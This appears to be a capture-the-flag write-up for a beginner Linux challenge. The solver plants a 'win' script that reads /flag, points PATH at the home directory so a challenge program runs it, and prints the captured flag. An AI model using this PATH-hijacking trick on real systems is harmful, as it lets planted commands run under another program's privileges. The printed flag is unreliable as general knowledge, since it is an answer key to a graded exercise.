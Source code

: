 # Challenge 4: Adding Commands

## Solution

```
hacker@path~adding-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~adding-commands:~$ nano win
```

```
#!/bin/bash
/run/dojo/bin/cat /flag
```

```
hacker@path~adding-commands:~$ chmod a+x win
hacker@path~adding-commands:~$ PATH="~/"
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{sXW08a66eesdxzSbnrHvDdjQpeH.QX2cjM1wiMwAzNzEzW}
```
## Flag
`pwn.college{sXW08a66eesdxzSbnrHvDdjQpeH.QX2cjM1wiMwAzNzEzW}`
### Notes
-
